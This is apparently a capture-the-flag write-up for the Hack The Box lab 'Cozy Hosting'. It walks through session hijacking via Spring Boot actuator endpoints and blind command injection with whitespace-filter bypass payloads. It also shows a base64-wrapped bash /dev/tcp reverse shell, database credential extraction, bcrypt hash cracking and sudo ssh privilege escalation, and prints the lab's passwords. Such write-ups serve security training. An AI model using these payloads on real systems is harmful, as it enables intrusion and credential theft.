# Cozy Hosting

| OS | Points | Difficulty | Creator |
|:-:|:-:|:-:|:-:|
| Linux | 20 | Easy | commandercool |



## Fingerprinting and Scanning

Ok, lets see what we got.
`sudo nmap -sC -sS -sV -p- --min-rate=5000 -vvv -oN cozyhosting.nmap 10.10.11.230`
- `-sC` - default scripts to catch low hanging fruit and extra enumeration.
- `--min-rate=5000` - speeds things up and HTB boxes can handle it.
- `-p-` - scan the entire port range in case the creator is being sneaky.
- `-oN` - save the output because you should never have to run a scan twice.
  
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
  
Looks like only SSH and HTTP ports are open in this box so the foothold is going to be through a web vulnerability. The HTTP server redirects to `http://cozyhosting.htb` so I'll add an entry for it in `/etc/hosts` and rerun the default `nmap` scripts for HTTP before moving on to the web enumeration phase.  
  
`sudo echo '10.10.11.230    cozyhosting.htb' >> /etc/hosts`  
`sudo nmap -sC -p 80 cozyhosting.htb -oN cozyhosting-http.nmap`  
  
```
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Cozy Hosting - Home
```
  
No new information here.  

## Web Enumeration

I like to start by clicking around the web application with Burp Proxy running just to get a sense of whats exposed.  

  

Looks like a webhosting service front page. All the links on the page link to content within the same page except for the login button which takes us to a login screen. I tried some default credentials by hand and some special characters to test for injections but got nothing.  
  
Doing directory enumeration might help me find more information about this web app and maybe even credentials somewhere.

`feroxbuster -u "http://cozyhosting.htb/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o cozyhosting.ferox -x txt -x html`  
  
Most interesting pages found are:  
```
401      GET        1l        1w       97c http://cozyhosting.htb/admin
500      GET        1l        1w       73c http://cozyhosting.htb/error
204      GET        0l        0w        0c http://cozyhosting.htb/logout
```
  
The error page shows a Whitelabel error which suggests that this is a SpringBoot application.  
  
  

SpringBoot's default username is 'user' and the password is randomly generated at each application start so this doesn't reveal credentials that I can use to get past the login page and to the admin portal.  
  
I can use this information to do another, better informed directory enumeration attempt with a SpringBoot-specific wordlist. If this doesn't work I'll have to use `hydra` to do a dictionary attack but I don't like doing that if I don't have a valid username.  
  
`feroxbuster -u "http://cozyhosting.htb/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt -o cozyhosting-springboot.ferox -x txt -x html`  

Looks like this found some additional paths:  
```
cat cozyhosting-spring.ferox| grep '200 ' | sort -n
```
  
```
200      GET       14l     1684w   143706c http://cozyhosting.htb/assets/vendor/swiper/swiper-bundle.min.js
200      GET        1l      108w     9938c http://cozyhosting.htb/actuator/mappings
200      GET        1l      120w     4957c http://cozyhosting.htb/actuator/env
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/home
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/lang
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/path
200      GET        1l        1w      148c http://cozyhosting.htb/actuator/sessions
200      GET        1l        1w       15c http://cozyhosting.htb/actuator/health
200      GET        1l        1w      634c http://cozyhosting.htb/actuator
```

The `/actuator/mappings` endpoint provides information on what each of the endpoints are for. The `/actuator/sessions` endpoint provides a list of the application's sessions. We can see that there is an active session for the `kanderson` user.  
  
  

## Session Hijacking

Looking back through Burp Proxy I can see that there is a `JSESSIONID` cookie that is being passed.
  
  
  
I can substitute in the value from `/sessions` and hijack `kanderson`'s session. I will test by checking if the login button is still there in the top-right. (You can also just replace the value in the browser's storage tab). 
- I didn't test with the `/admin` page because this might not be an admin account. 
  
  
  
Looks like the session has been successfully hijacked.  
  
  
  
Ok, now can we access `/admin`.
  
  

## Web Enumeration 2

The are no interesting links on this page. No profile that we can edit for the admin user. No documentation that we can use to get additional information.

Than only thing that is interesting here is a form that sends a POST request to the `/executessh` endpoint.  

  

I will intercept a request and send it to repeater to try and test for command injection.

## Command Injection

The output of the `ssh` command is included in the server response in the `Location:` header.  

  

There is some input validation on the argument sent in the `host` parameter. The characters `$();` will result in `'Invalid hostname!'` in the response. There doesn't appear to be any of that validation applied to the `username` parameter. The only restriction seems to be that the hostname cannot contain whitespace characters.  
  
Passing `;` as the username returns the `ssh` usage message.

  
  
We can assume that the command that is being run on the server looks like this:  
`ssh <username>@<hostname>`.  Using this we can craft a suitable payload.  
  
Payload: `2>/dev/null;ls${IFS}-al#`
- `2>/dev/null` - redirects the ssh usage message so we can get cleaner output.
- `ls${IFS}-al` - just the `ls -al` command but uses the [IFS](https://en.wikipedia.org/wiki/Input_Field_Separators) character to bypass the whitespace filter.  
- `#` - commends out the rest of the line, the hostname.
  
Running the previous command did not show us the output because the `Location:` header is getting its value from `stderr`. We can't pipe the output of our commands into `stderr` so we probably have a blind command injection here.   
  
To test it I will use `username=;sleep${IFS}5;#` and if the response time is around 5 seconds then I'll know the command executed.  
   
  

Now we can start a listener on port 443 and get a reverse shell. We can use this payload: `/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/443 0>&1'` which has special characters but we can bypass it with base64 encoding.
- `username=2>/dev/null;echo${IFS}<base64_encoded_payload>|base64${IFS}-d|/bin/bash;#`
- you might have to URL encode your payload.  
  
  

## Server Enumeration

First lets enumerate other users on this machine that have a shell.  
`cat /etc/passwd | grep /bin/bash`  

```
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

I don't have permission to view josh's files so I can't read the user flag yet.  
`drwxr-x---  3 josh josh 4096 Aug  8 10:19 josh`  

The application JAR file is located in the `/app` directory so maybe there are credentials in there. I copied and loaded it up in `jadx-gui` and started looking for usernames. Looking up `josh` brought up nothing and looking up `kanderson` showed the password used for that account but unfortunately it was not re-used.
- `kanderson:MRdEQuv6~6P9`

After digging a little deeper through the code I found a part that specifies the table used for managing users in the database.  
  
  
  
I then remembered that there is a `postgres` user that I came across when I got the initial foothold. The database credentials must be somewhere in the archive and the username is likely `postgres`.    
  
I tried running a search in `jadx-gui` for 'postgres' but the results did not contain the database credentials. A quick google search showed this [article](https://www.codejava.net/frameworks/spring-boot/connect-to-postgresql-database-examples) which says that the credentials are in a file called `application.properties`. This file can be found in the `/Resources/BOOT-INF/classes` directory.
  
  
  
We can now use the database credentials and database name to access the database.  
  
## Database Enumeration
  
Since I have all the information needed I can now use `psql` to connect to the database.  
- `psql -h localhost -U postgres -d cozyhosting -p 5432`
- enter the password when prompted: `Vg&nvzAQ7XxR`
  
First I'll list the available databases with the `\list` command.  
```
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access
-------------+----------+----------+-------------+-------------+---------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 ...<snip>...
(4 rows)
```
  
Now I'll connect to the `cozyhoting` database using `\c cozyhosting`. Then, I'll enumerate the available tables using `\d`.  
```
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```
  
I dumped all three tables using `SELECT * FROM <table_name>;`. The hosts tables were pretty uninteresting but the users tables had password hashes.   
```
   name    |                           password                           | role 
-----------+--------------------------------------------------------------+------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```
  
## Password Cracking
  
Now that I have password hashes I'll go ahead and crack the admin password and hope that it is being re-used for either `josh` or `root`.  
  
First, place the hash in a text file for `hashcat` to read.  I'll call that `hashes.txt`. Then I'll run `hashid` to find the hash type.  
  
  
  
Now lets find the number corresponding to that hash type so we can use it for the `-m` option for `hashcat`.  
- `hashcat --help | grep 'Blowfish(OpenBSD)'`
- output -> `3200 | bcrypt $2*$, Blowfish (Unix)              | Operating System`

Now we can start the attack:  
`hashcat -O -m 3200 -a 0 hashes.txt -o cracked.txt /usr/share/wordlists/rockyou.txt`
- `-O` enable optimized kernel
- `-m 3200` - specify the hash type
- `-a 0` - set the attack mode to dictionary attack
- `-o cracked.txt` - save cracked hashes to a file
  
  
  
## Credential Re-use
  
Now that I cracked the password `manchesterunited`, I'll try to re-use it for the user `josh`.
- `ssh josh@cozyhosting.htb`
  
Now I have the user flag.  
  
  

## Privilege Escalation

Now for another round of enumeration to look for a privilege escalation path.  

Since I have `josh`'s password I can check what commands he is allowed to run as `root` via `sudo -l`.
```
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
  
The path for getting a shell from `ssh` while it has `root` privileges can be found on this [GTFO Bins Page](https://gtfobins.github.io/gtfobins/ssh/#sudo).
- `sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
  
  